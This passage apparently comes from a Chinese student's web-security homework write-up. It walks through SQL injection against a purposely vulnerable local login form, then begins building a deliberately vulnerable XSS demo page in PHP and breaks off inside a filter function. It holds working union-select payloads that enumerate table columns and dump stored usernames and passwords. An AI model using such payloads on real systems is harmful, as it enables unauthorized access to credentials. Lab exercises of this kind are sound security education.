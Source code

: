 ![QehF9f.png](https://s2.ax1x.com/2019/12/01/QehF9f.png)

表名为admin

### 获取列名

```bash
用户名：0' union select (select column_name from information_schema.columns where table_name='admin' limit 0,1),(select column_name from information_schema.columns where table_name='admin' limit 1,2)#
密码：111（任意）
```

![QeheBj.png](https://s2.ax1x.com/2019/12/01/QeheBj.png)

列名为name,passward

### 获取数据

```bash
用户名：1' union select name,passward from admin#
密码：111（任意）
```

![QehKNq.png](https://s2.ax1x.com/2019/12/01/QehKNq.png)

得到用户名及密码

（建表的时候把password拼错了）😂

## 三、注入漏洞修补

由于select语句并没有对输入的用户名进行检测，而是拿来直接用，造成的注入漏洞，可以对输入的用户名进行长度限制，或者过滤。

# 作业二——（二）xss攻击

## 一、建立漏洞页面

在www目录下新建xss.php,代码如下

```php
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv="Content-Type" content="text/html;charset=utf-8">
		<title>xss漏洞简单搭建</title>
	</head>
	<body>
		<center>
			<h6>把我们输入的字符串输出到input里的value属性里</h6>
			<form action="" method="get">
				<h6>请输入你想显现的字符串</h6>
				<input type="text" name="xss_input_value" value="输入"><br />
				<input type='submit'>
			</form>
			<hr>
	
			<?php
			//php防注入和XSS攻击通用过滤
$_GET     && SafeFilter($_GET);
$_POST    && SafeFilter($_POST);
$_COOKIE  && SafeFilter($_COOKIE);
  
function SafeFilter (&$arr) 
{
```